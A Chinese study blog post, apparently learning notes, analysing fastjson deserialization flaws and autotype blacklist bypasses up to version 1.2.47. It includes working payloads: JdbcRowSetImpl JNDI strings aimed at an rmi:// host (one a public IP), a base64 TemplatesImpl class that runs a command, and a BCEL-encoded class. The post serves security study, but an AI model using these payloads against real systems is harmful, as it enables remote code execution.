


# 前言

开始学习fastjson，`TemplatesImpl利用链`让我跟的脑子疼，还是太菜了，断点打到后面整个人都是懵的。


# 初认fastjson

Fastjson 是一个 Java 库，可以将 Java 对象转换为 JSON 格式，当然它也可以将 JSON 字符串转换为 Java 对象。

Fastjson 可以操作任何 Java 对象，即使是一些预先存在的没有源码的对象。

它关键的方法就是三个：

- 将对象转换成JSON字符串：`JSON.toJSONString`
- 将JSON字符串转换成对象：`JSON.parse`和`JSON.parseObject()`


简单的写个类：

```java
package com.feng.pojo;

public class Student {
    private String name;
    private int age;

    public Student() {
        System.out.println("构造函数");
    }

    public String getName() {
        System.out.println("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge");
        return age;
    }

    public void setAge(int age) throws Exception{
        System.out.println("setAge");
        //Runtime.getRuntime().exec("calc");
        this.age = age;
    }
    public void setTest(int i){
        System.out.println("setTest");
    }
}
```

之所以会有这么个`setTest()`，后面会聊到。


来测试一下对象转JSON字符串：

```java
        Student student = new Student();
        student.setAge(18);
        student.setName("feng");
        System.out.println("====================");
        String jsonString1 = JSON.toJSONString(student);
        System.out.println("====================");
        String jsonString2 = JSON.toJSONString(student, SerializerFeature.WriteClassName);
        System.out.println(jsonString1);
        System.out.println(jsonString2);
```

```shell
构造函数
setAge
setName
====================
getAge
getName
====================
getAge
getName
{"age":18,"name":"feng"}
{"@type":"com.feng.pojo.Student","age":18,"name":"feng"}
```

可以看到，调用`JSON.toJSONString`会自动调用类的`getter`。

可以发现这个`SerializerFeature.WriteClassName`，设置的话就会加上`@type`，指明类。


再试试JSON字符串转对象：

```java
        String jsonString1 = "{\"age\":18,\"name\":\"feng\"}";
        String jsonString2 = "{\"@type\":\"com.feng.pojo.Student\",\"age\":18,\"name\":\"feng\"}";
        System.out.println(JSON.parse(jsonString1));
        System.out.println("======================");
        System.out.println(JSON.parse(jsonString2));
        System.out.println("======================");
        System.out.println(JSON.parseObject(jsonString1));
        System.out.println("======================");
        System.out.println(JSON.parseObject(jsonString2));
        System.out.println("======================");
```

```shell
{"name":"feng","age":18}
======================
构造函数
setAge
setName
com.feng.pojo.Student@7bb11784
======================
{"name":"feng","age":18}
======================
构造函数
setAge
setName
getAge
getName
{"name":"feng","age":18}
======================
```

可以发现`parseObject`最后得到的还是JSON对象。看一下源码可以知道，`parseObject`其实就是调用一次`parse`，然后转换成`JSONObject`：

```java
    public static JSONObject parseObject(String text) {
        Object obj = parse(text);
        if (obj instanceof JSONObject) {
            return (JSONObject) obj;
        }

        return (JSONObject) JSON.toJSON(obj);
    }
```


还可以发现，如果不带上`@type`指明类名，是没法得到类对象的。

如果指明了类名，使用`parse`的时候，不仅会得到对象，还会调用这个对象的`setter`；使用的是`parseObject`的话，不仅会得到对象且调用`setter`，还会调用`getter`。

这种利用`@type`的机制也叫`autotype`：

> autotype 是 Fastjson 中的一个重要机制，粗略来说就是用于设置能否将 JSON 反序列化成对象。


这种会调用`setter`和`getter`的机制，很容易想到之前`CommonsBeanutils1`文章里的`PropertyUtils.getProperty`，将会调用对应属性的`getter`，而且不是说那种调用，是`get+属性`，调用这种方法。

因此同理我在类中设置了一个`setTest`方法，但是不存在`test`属性。经过测试，如果JSON字符串里有了`test`键，在`parse`的时候也确实会调用这个方法，其实这时候就多少会联想到`TemplatesImpl `的`getOutputProperties`。不过这个之后再谈。


后续补充：

**set开头的方法要求如下：**

- 方法名长度大于4且以set开头，且第四个字母要是大写
- 非静态方法
- 返回类型为void或当前类
- 参数个数为1个


**get开头的方法要求如下：**

- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong

# JdbcRowSetImpl利用链

知道了这些东西，如果`parse`或者`parseObject`的字符串可控的话，是否可以造成攻击呢？

这就引出了fastjson的两种攻击方式。好用的肯定还是这个`JNDI`攻击方式。

关于JNDI注入的相关知识，上一篇已经提到了，就不再多阐述了。

关键就是`JdbcRowSetImpl`类的`setDataSourceName()`方法和`setAutoCommit`方法。看一下这个利用链是怎么攻击的：

```java
    public void setAutoCommit(boolean var1) throws SQLException {
        if (this.conn != null) {
            this.conn.setAutoCommit(var1);
        } else {
            this.conn = this.connect();
            this.conn.setAutoCommit(var1);
        }
    }
```

如果`this.conn`为null的话，会进入`this.connect()`：

```java
    private Connection connect() throws SQLException {
        if (this.conn != null) {
            return this.conn;
        } else if (this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
```

可以很清楚的看到下面两行，很明显的一个JNDI。想办法得让`this.getDataSourceName()`可控：

```java
    public String getDataSourceName() {
        return dataSource;
    }
```

也就是要控制`dataSource`属性。跟进一下`setDataSourceName()`：

```java
    public void setDataSourceName(String var1) throws SQLException {
        if (this.getDataSourceName() != null) {
            if (!this.getDataSourceName().equals(var1)) {
                super.setDataSourceName(var1);
                this.conn = null;
                this.ps = null;
                this.rs = null;
            }
        } else {
            super.setDataSourceName(var1);
        }
```

```java
    public void setDataSourceName(String name) throws SQLException {

        if (name == null) {
            dataSource = null;
        } else if (name.equals("")) {
           throw new SQLException("DataSource name cannot be empty string");
        } else {
           dataSource = name;
        }

        URL = null;
    }
```

直接设置就好了。构造一波：

```java
{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://121.5.169.223:39654/feng\", \"autoCommit\":true}
```


```java
        String jsonString1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://121.5.169.223:39654/feng\", \"autoCommit\":true}";
        JSON.parse(jsonString1);
```


.assets/image-20210902164012900.png)


# TemplatesImpl利用链

给我看的脑子疼。跟进的太嘛了，也是跟了一遍，很懵，可以自己跟进一遍叭。


总的来说，既然想到利用`TemplatesImpl`，就是调用`getOutputProperties`，但是`parse`不应该只调用`setter`吗？关键就在于这里。打断点跟进一下就会发现，当解析到`_OutputProperties`的时候在这里设置值：

.assets/image-20210902165103184.png)

继续跟进，可以发现在`setValue`里面的第66行得到了这个`getOutputProperties`方法

.assets/image-20210902165400929.png)


并且进入了这里的`if`，调用了这个方法：

.assets/image-20210902165506464.png)


试得`TemplatesImpl`可以利用。接下来就是联想一下反序列化中的`TemplatesImpl`：

```java
        byte[] bytes = Base64.getDecoder().decode("xxx");
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_bytecodes",new byte[][]{bytes});
        setFieldValue(templates,"_name","feng");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

设置这三个属性，然后调用`getOutputProperties`方法即可。


不过这种方法有很大的局限，就是`private`属性的还原。上面讲fastjson的时候用到的`Student`类的属性都是`private`，也都成功还原了。但是你仔细想想，是因为我加了`setter`啊。`private`属性咋可能会有`setter`？这就导致了，要还原`private属性`的话，需要加上个`Feature.SupportNonPublicField`才可以：

```java
JSON.parse(jsonString, Feature.SupportNonPublicField);
```


给出构造的payload：

```java
        String jsonString = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\",\"_bytecodes\":[\"yv66vgAAADQANAoACAAkCgAlACYIACcKACUAKAcAKQoABQAqBwArBwAsAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAAR0aGlzAQAGTEV2aWw7AQANU3RhY2tNYXBUYWJsZQcAKwcAKQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGRvY3VtZW50AQAtTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007AQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApFeGNlcHRpb25zBwAtAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACGl0ZXJhdG9yAQA1TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjsBAAdoYW5kbGVyAQBBTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAApTb3VyY2VGaWxlAQAJRXZpbC5qYXZhDAAJAAoHAC4MAC8AMAEABGNhbGMMADEAMgEAE2phdmEvaW8vSU9FeGNlcHRpb24MADMACgEABEV2aWwBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAD3ByaW50U3RhY2tUcmFjZQAhAAcACAAAAAAAAwABAAkACgABAAsAAAB8AAIAAgAAABYqtwABuAACEgO2AARXpwAITCu2AAaxAAEABAANABAABQADAAwAAAAaAAYAAAAKAAQADAANAA8AEAANABEADgAVABAADQAAABYAAgARAAQADgAPAAEAAAAWABAAEQAAABIAAAAQAAL/ABAAAQcAEwABBwAUBAABABUAFgACAAsAAAA/AAAAAwAAAAGxAAAAAgAMAAAABgABAAAAFQANAAAAIAADAAAAAQAQABEAAAAAAAEAFwAYAAEAAAABABkAGgACABsAAAAEAAEAHAABABUAHQACAAsAAABJAAAABAAAAAGxAAAAAgAMAAAABgABAAAAGgANAAAAKgAEAAAAAQAQABEAAAAAAAEAFwAYAAEAAAABAB4AHwACAAAAAQAgACEAAwAbAAAABAABABwAAQAiAAAAAgAj\"],\"_name\":\"feng\",\"_tfactory\":{},\"_outputProperties\":{}}";

        JSON.parse(jsonString, Feature.SupportNonPublicField);
```

可以很奇怪的发现，`_bytecodes`那里使用了base64编码，这是取了`Evil.class`然后Base64编码。原因就在于，最后在这里得到`bytes`的时候：

```java
                    } else {
                        val = deserializer.deserialze(this, type, i);
                    }
```

```java
        if (lexer.token() == JSONToken.LITERAL_STRING) {
            byte[] bytes = lexer.bytesValue();
            lexer.nextToken(JSONToken.COMMA);
            return (T) bytes;
        }
```

```java
public byte[] bytesValue() {
    return IOUtils.decodeBase64(text, np + 1, sp);
}
```


对`_bytecode`的值进行了base64解码。可以自己跟一下代码看看。所以需要base64编码。

其实想想这种处理方式是很正确的，因为这种字节数组，很容易有不可见字符，所以加一层base64才行。

.assets/image-20210902171154569.png)


# BasicDataSource利用链（不出网）

### POC

```java
        String poc = "{\n" +
                "    {\n" +
                "        \"x\":{\n" +
                "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                "                \"driverClassLoader\": {\n" +
                "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                "                },\n" +
                "                \"driverClassName\": \"$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmQ$cbN$c2$40$U$3d$D$85$96ZD$40$7c$bf$9f$e0B6$ee4n$8c$s$c6$fa$88$Y$5d$P$e3$EGKK$ca$60$fc$p$d7n$d4$b8$f0$D$fc$u$e3$9d$8a$8fD$9b$f4$3e$ce$bd$e7$dc$7b$db$b7$f7$97W$A$hXq$e1$60$d4$c5$Y$c6$jL$Y$3fic$caE$G$d36fl$cc2d$b7T$a8$f46C$baZ$3bg$b0v$a2K$c9P$f0U$u$8fz$ed$a6$8c$cfx3$m$a4$e4G$82$H$e7$3cV$s$ef$83$96$beR$5d$d2$f0woU$b0$c9$e0l$89$a0$_$c7$a8$5c$f1$af$f9$z$af$ab$a8$be$7f$bc$7b$tdG$ab$u$a4$b6$7cCsqs$c8$3b$89$Mm$c4$e06$a2$5e$y$e4$9e2$b29$p$b7n$b8$krpm$ccy$98$c7$C$cd$a3$V$84$87E$y1$94$ff$d1$f6$b0$M$97$da$M$9fa$u$e9$Ix$d8$aa$l7$af$a5$d0$M$c5$l$e8$b4$Xj$d5$a6inK$ea$ef$a4R$ad$f9$7fzheK$deI$c1$b0Z$fdUm$e8X$85$ad$cd$df$84$938$S$b2$db$rB$a1CE$9d$iz$Ws$n$e9$A$9b$7e$86yR$60$e6$y$b2$D$94$d5$c93$f2$99$b5$t$b0$87$a4$ec$91$cd$7e$82$c8$93$f5$fa$f1$m$K$e4$j$M$7d$93y$o$G$94$9e$91$w$a5$la$5d$dc$c39X$7bD$f6$n$c1s$c4$cd$m$9d$u$8ePd$d89b$9a$ef$9a$t$95$oE_$T$f2$b0$u$_QV$a6$d7F$ca$b71lQ$a1$92$y5$f2$B$b8$ix$a4V$C$A$A\"\n" +
                "        }\n" +
                "    }: \"x\"\n" +
                "}";
        JSON.parse(poc);
```

```json
{
    {
        "x":{
                "@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
                "driverClassLoader": {
                    "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                },
                "driverClassName": "$$BCEL$$$l$8b$I$A$..."
        }
    }: "x"
}
```

利用了BCEL。

调用链：

```
BasicDataSource.getConnection()
createDataSource()
createConnectionFactory()
```

有个小trick需要学习，就是如果JSONObject位于JSON的key上的时候：

```java
key = (key == null) ? "null" : key.toString();
```

会调用`toString()`，这个之前也知道是什么：

```java
    public String toString() {
        return toJSONString();
    }
```

`toJSONString()`会调用`getter`和`setter`，导致了`getConnection()`的调用。

跟进：





```java
    protected ConnectionFactory createConnectionFactory() throws SQLException {
        // Load the JDBC driver class
        Driver driverToUse = this.driver;

        if (driverToUse == null) {
            Class<?> driverFromCCL = null;
            if (driverClassName != null) {
                try {
                    try {
                        if (driverClassLoader == null) {
                            driverFromCCL = Class.forName(driverClassName);
                        } else {
                            driverFromCCL = Class.forName(
                                    driverClassName, true, driverClassLoader);
                        }
```

`Class.forName`第二个参数为true，可以触发static中的代码，这时候再加上`driverClassName`和`driverClassLoader`都可控，利用BCEL加载即可。

需要学习的姿势就是那个`toString`，前面加东西让生成的是`JSONObject`

# fastjson 1.2.25-1.2.41

在1.2.24的基础上增加了`checkAutoType()`方法：

```java
    public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
        if (typeName == null) {
            return null;
        }

        final String className = typeName.replace('$', '.');

        if (autoTypeSupport || expectClass != null) {
            for (int i = 0; i < acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, defaultClassLoader);
                }
            }

            for (int i = 0; i < denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }

            return clazz;
        }

        if (!autoTypeSupport) {
            for (int i = 0; i < denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
            for (int i = 0; i < acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader);

                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }
                    return clazz;
                }
            }
        }

        if (autoTypeSupport || expectClass != null) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
        }

        if (clazz != null) {

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }
        }

        if (!autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        return clazz;
    }
```

总的来说可以分成2种，1种是`autoTypeSupport`为true，一种是`autoTypeSupport`为false的情况（`autoTypeSupport`默认是false）。

先跟一下false的情况：

```java
        if (typeName == null) {
            return null;
        }

        final String className = typeName.replace('$', '.');
        if (!autoTypeSupport) {
            for (int i = 0; i < denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
            for (int i = 0; i < acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader);

                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }
                    return clazz;
                }
            }
        }
        if (!autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        return clazz;
```

首先是一个黑名单的waf，只要中1个一个黑名单直接寄。然后就是白名单，必须要中1个白名单，如果不中的话到最后还是会抛出异常，很难绕。

黑名单：

.assets/image-20220301193313046.png)


再看看`autoTypeSupport`为true的情况：

```java
        if (typeName == null) {
            return null;
        }

        final String className = typeName.replace('$', '.');
        if (autoTypeSupport || expectClass != null) {
            for (int i = 0; i < acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, defaultClassLoader);
                }
            }

            for (int i = 0; i < denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
        if (autoTypeSupport || expectClass != null) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
        }
        if (clazz != null) {

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }
        }
        return clazz;
```

先是白名单，只要中1个白名单直接过了，如果白名单没中再去黑名单中找，找到就寄。

如果这两个都过了，会`TypeUtils.loadClass`，然后再看是不是继承自`ClassLoader`或者`DataSource`，如果是还是寄。如果这都过了，就绕过去了。


其实看起来还是不太好绕，但关键在于这个`TypeUtils.loadClass`：

```java
    public static Class<?> loadClass(String className, ClassLoader classLoader) {
        if (className == null || className.length() == 0) {
            return null;
        }

        Class<?> clazz = mappings.get(className);

        if (clazz != null) {
            return clazz;
        }

        if (className.charAt(0) == '[') {
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }

        if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }

        try {
            if (classLoader != null) {
                clazz = classLoader.loadClass(className);
                mappings.put(className, clazz);

                return clazz;
            }
        } catch (Throwable e) {
            e.printStackTrace();
            // skip
        }

        try {
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();

            if (contextClassLoader != null && contextClassLoader != classLoader) {
                clazz = contextClassLoader.loadClass(className);
                mappings.put(className, clazz);

                return clazz;
            }
        } catch (Throwable e) {
            // skip
        }

        try {
            clazz = Class.forName(className);
            mappings.put(className, clazz);

            return clazz;
        } catch (Throwable e) {
            // skip
        }

        return clazz;
    }
```

其中的：

```java
        if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
```

如果以L开头且以分号结尾，就去掉这俩部分然后取中间进行`loadClass`。

再这之后要绕的只有不是继承`ClassLoader`和`DataSource`了。

同样的L开头;结尾，同样可以绕前面的黑名单。

所以POC（要开启`autoTypeSupport`）：

```java
public class Fastjson {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        exp2();
    }
    //1.2.25-1.2.41
    public static void exp2(){
        String jsonString = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://127.0.0.1:39654/Exploit\", \"autoCommit\":true}";
        JSON.parse(jsonString);
    }
}
```


# fastjson 1.2.42

```java
    public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        if (typeName == null) {
            return null;
        }

        if (typeName.length() >= 128 || typeName.length() < 3) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        String className = typeName.replace('$', '.');
        Class<?> clazz = null;

        final long BASIC = 0xcbf29ce484222325L;
        final long PRIME = 0x100000001b3L;

        if ((((BASIC
                ^ className.charAt(0))
                * PRIME)
                ^ className.charAt(className.length() - 1))
                * PRIME == 0x9198507b5af98f0L)
        {
            className = className.substring(1, className.length() - 1);
        }

        final long h3 = (((((BASIC ^ className.charAt(0))
                * PRIME)
                ^ className.charAt(1))
                * PRIME)
                ^ className.charAt(2))
                * PRIME;

        if (autoTypeSupport || expectClass != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }

        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }

            return clazz;
        }

        if (!autoTypeSupport) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                char c = className.charAt(i);
                hash ^= c;
                hash *= PRIME;

                if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    if (clazz == null) {
                        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    }

                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    return clazz;
                }
            }

        }

        if (clazz == null) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
        }

        if (clazz != null) {
            if (TypeUtils.getAnnotation(clazz,JSONType.class) != null) {
                return clazz;
            }

            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }

            JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, propertyNamingStrategy);
            if (beanInfo.creatorConstructor != null && autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }

        final int mask = Feature.SupportAutoType.mask;
        boolean autoTypeSupport = this.autoTypeSupport
                || (features & mask) != 0
                || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;

        if (!autoTypeSupport) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        return clazz;
    }
```


和之前版本比起来，有两个改变。

一处改变就是明文黑名单变成了黑名单哈希：

.assets/image-20220301194245974.png)

网上都可以找到碰撞的结果。

第二处就是删除了开头的L和结尾的; ：

```java
        if ((((BASIC
                ^ className.charAt(0))
                * PRIME)
                ^ className.charAt(className.length() - 1))
                * PRIME == 0x9198507b5af98f0L)
        {
            className = className.substring(1, className.length() - 1);
        }
```

但是问题是，只删了1次，双写绕过即可。

```java
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);        
        String jsonString = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://127.0.0.1:39654/Exploit\", \"autoCommit\":true}";
        JSON.parse(jsonString);
```

# fastjson 1.2.43

增加了限制：

```java
        if ((((BASIC
                ^ className.charAt(0))
                * PRIME)
                ^ className.charAt(className.length() - 1))
                * PRIME == 0x9198507b5af98f0L)
        {
            if ((((BASIC
                    ^ className.charAt(0))
                    * PRIME)
                    ^ className.charAt(1))
                    * PRIME == 0x9195c07b5af5345L)
            {
                throw new JSONException("autoType is not support. " + typeName);
            }
            // 9195c07b5af5345
            className = className.substring(1, className.length() - 1);
        }
```

如果以L开头;结尾，而且开头是两个LL的话，直接寄。

所以L分号就寄了。但是实际上`TypeUtils.loadClass`对`[`也有特殊处理：

```java
        if(className.charAt(0) == '['){
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
```

只不过正常直接加[代码没到这里就报错了，能用的poc是`[   [{`：

```java
        String jsonString = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://127.0.0.1:39654/Exploit\", \"autoCommit\":true}";
        JSON.parse(jsonString);
```

同理这个也可以绕过之前版本的。

# fastjson 1.2.44-1.2.46

1.2.44对`[`进行了限制：

```java
        if (h1 == 0xaf64164c86024f1aL) { // [
            throw new JSONException("autoType is not support. " + typeName);
        }
```

寄。

而且这几个版本还在不断增加黑名单，因为新版本会引入新jar包，导致了黑名单的绕过。

# fastjson 1.2.47

借助cache而通杀。

POC：

```java
        String jsonString = "{\n" +
                "    \"a\": {\n" +
                "        \"@type\": \"java.lang.Class\", \n" +
                "        \"val\": \"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    }, \n" +
                "    \"b\": {\n" +
                "        \"@type\": \"com.sun.rowset.JdbcRowSetImpl\", \n" +
                "        \"dataSourceName\": \"rmi://127.0.0.1:39654/Exploit\", \n" +
                "        \"autoCommit\": true\n" +
                "    }\n" +
                "}";
        JSON.parse(jsonString);
```

无需开启`autoTypeSupport`。


简单的理一下把，关注这里：

```java
        if (autoTypeSupport || expectClass != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
```

